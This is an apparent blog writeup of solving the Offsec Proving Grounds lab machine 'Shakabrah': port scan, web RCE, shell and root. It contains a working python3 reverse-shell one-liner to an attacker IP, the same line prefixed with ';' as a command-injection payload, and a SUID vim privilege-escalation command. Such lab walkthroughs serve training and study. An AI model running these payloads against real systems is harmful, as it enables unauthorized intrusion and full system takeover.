 ```yaml
---
title: "Proving grounds Play: Shakabrah"
layout: post
date: 2023-09-17 01:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33b96d350bc5c45a86e0261095487782 (RSA)
|   256 a80fa7738302c1978c25bafea5115f74 (ECDSA)
|_  256 fce99ffef9e04d2d76eecadaafc3399e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web PORT: 80

![img](/assets/images/CTF/Proving_Grounds/Shakabrah/web.png)

The target is vulnerable to RCE.

![img](/assets/images/CTF/Proving_Grounds/Shakabrah/rce.png)

## Obtain Reverse shell

Obtain reverse shell using python3 reverse shell.

```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.226",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

```sh
;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.226",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

Final payload to get reverse shell.

## Privilege Escalation

### SUID

```sh
www-data@shakabrah:/home/dylan$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/vim.basic #exploitable
/usr/bin/newuidmap
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
```

### GTFO Bins Exploit

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that `vim` is compiled with Python support. Prepend :py3 for Python 3.

```sh
./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

```sh
www-data@shakabrah:/var/www/html$ /usr/bin/vim.basic
:
:py3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")
```

![img](/assets/images/CTF/Proving_Grounds/Shakabrah/gtfo.png)

**Root Obtained**

![img](/assets/images/CTF/Proving_Grounds/Shakabrah/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
